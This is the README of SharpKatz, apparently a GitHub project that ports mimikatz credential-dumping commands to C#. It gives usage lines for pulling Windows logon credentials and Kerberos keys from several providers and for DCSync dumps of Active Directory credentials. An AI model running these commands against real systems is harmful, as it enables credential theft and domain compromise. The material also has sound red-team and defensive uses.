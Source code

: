 # SharpKatz
Porting of mimikatz sekurlsa::logonpasswords,  sekurlsa::ekeys and lsadump::dcsync commands

## Usage

### Ekeys

```SharpKatz.exe --Command ekeys```<br>
 list Kerberos encryption keys <br>
 <br>

### Msv

```SharpKatz.exe --Command msv``` <br>
Retrive user credentials from Msv provider <br>
<br>

### Kerberos

```SharpKatz.exe --Command kerberos```<br>
Retrive user credentials from Kerberos provider <br>
<br>

### Tspkg

```SharpKatz.exe --Command tspkg```<br>
Retrive user credentials from Tspkg provider <br>
<br>

### Credman

```SharpKatz.exe --Command credman```<br>
Retrive user credentials from Credman provider <br>
<br>

### WDigest

```SharpKatz.exe --Command wdigest```<br>
Retrive user credentials from WDigest provider <br>
<br>

### Logonpasswords

```SharpKatz.exe --Command logonpasswords```<br>
Retrive user credentials from all providers <br>
<br>

### DCSync

```SharpKatz.exe --Command dcsync --User user --Domain userdomain --DomainController dc```<br>
Dump user credential by username <br>
<br>
```SharpKatz.exe --Command dcsync --Guid guid --Domain userdomain --DomainController dc```<br>
Dump user credential by GUID <br>
<br>
```SharpKatz.exe --Command dcsync --Domain userdomain --DomainController dc```<br>
Export the entire dataset from AD to a file created in the current user's temp forder<br>
<br>

## Credits

This project depends entirely on the work of [Benjamin Delpy](https://twitter.com/gentilkiwi) and [Vincent Le Toux](https://twitter.com/mysmartlogon) on [Mimikatz](https://github.com/gentilkiwi/mimikatz) and [MakeMeEnterpriseAdmin](https://raw.githubusercontent.com/vletoux/MakeMeEnterpriseAdmin/master/MakeMeEnterpriseAdmin.ps1) projects.<br>
The analysis of the code was conducted following the example from [this blog post](https://blog.xpnsec.com/exploring-mimikatz-part-1/) from [xpn](https://twitter.com/_xpn_).<br>
<br>
